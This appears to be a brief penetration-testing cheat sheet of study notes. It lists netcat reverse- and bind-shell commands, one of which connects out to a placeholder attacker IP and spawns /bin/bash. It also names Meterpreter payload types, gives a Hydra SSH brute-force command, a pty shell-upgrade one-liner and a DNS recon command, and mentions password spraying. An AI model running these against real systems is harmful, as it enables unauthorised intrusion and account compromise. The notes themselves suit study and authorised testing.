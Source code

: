 ## Reverse Shell vs Bind shell

# Reverse Shell
    - Listen
    - Nc -nlvp 4444
    - Connect
    - Nc <attacker ip> <port> -e /bin/bash 

# Bind Shell
    - Nc -nlvp  4444-e /bin/bash
    - Nc <ip> port
    
## Staged and Non Staged Payload

## Non-Staged
    - Send all shellcode at once
    - Larger in size and wont always work

    - *Example*
    - `Windows/Meterpreter_reverse_tcp`
    
## Staged
    - Sends payload in stages
    - Can be less stable
    
    - *Example*
    - `Windows/Meterpreter/reverse_tcp`
    
## BruteForce Attacks
    - `Hydra -l root -P <wordlist> ssh://ip/ -t 4 -V`
    
## Credential Stuffing (burp Suit) and Password Spraying
    - Status code change
    - Change in length 
    - Response   
    
    
## Rev shell upgrade
    - `python -c 'import pty;pty.spawn("/bin/bash")'`
    
## Dns Recon 
    `Dnsrecon -r 127.0.0.1/24 -n <target ip> -d something`
